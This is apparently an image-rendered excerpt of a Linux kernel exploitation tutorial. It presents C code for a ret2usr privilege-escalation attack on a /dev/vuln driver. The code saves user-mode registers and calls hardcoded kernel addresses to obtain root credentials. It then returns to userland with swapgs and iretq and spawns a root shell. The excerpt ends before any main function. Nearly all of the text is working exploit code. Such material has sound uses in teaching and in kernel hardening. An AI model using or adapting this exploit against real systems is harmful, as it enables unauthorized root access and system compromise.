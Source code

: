 The final exploit code for a full `ret2usr` attack is as shown below: 

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdlib.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>

#define FILE "/dev/vuln"

static long stack_cookie = 0x0;
static unsigned long user_rip, user_rflags, user_ss, user_sp, user_cs;

void get_shell(void){
        puts("[+] Returned to UserLandz");

        char *args[] = {"/bin/sh", NULL};
        char *envp[] = {NULL};

        if (getuid() == 0 && getgid() == 0){
                execve(args[0], args, envp);
        }else{
                puts("[-] Failed to Privz");
                _exit(-1);
        }
}


void save_registers(void){
        __asm__(
                "mov user_cs, cs;"
                "mov user_ss, ss;"
                "mov user_sp, rsp;"
                "pushf;"
                "pop user_rflags;"
        );
        fprintf(stdout, "[+] Saved Registers!\n");
}


void update_creds(void){
        user_rip = (unsigned long) get_shell;
        __asm__(
                "movabs rax, 0xffffffff810894f0;"
                "xor rdi, rdi;"
                "call rax; mov rdi, rax;"
                "movabs rax, 0xffffffff810892c0;"
                "call rax;"
                "swapgs;"
                "mov r9, user_ss;"
                "push r9;"
                "mov r9, user_sp;"
                "push r9;"
                "mov r9, user_rflags;"
                "push r9;"
                "mov r9, user_cs;"
                "push r9;"
                "mov r9, user_rip;"
                "push r9;"
                "iretq;"
        );
}
```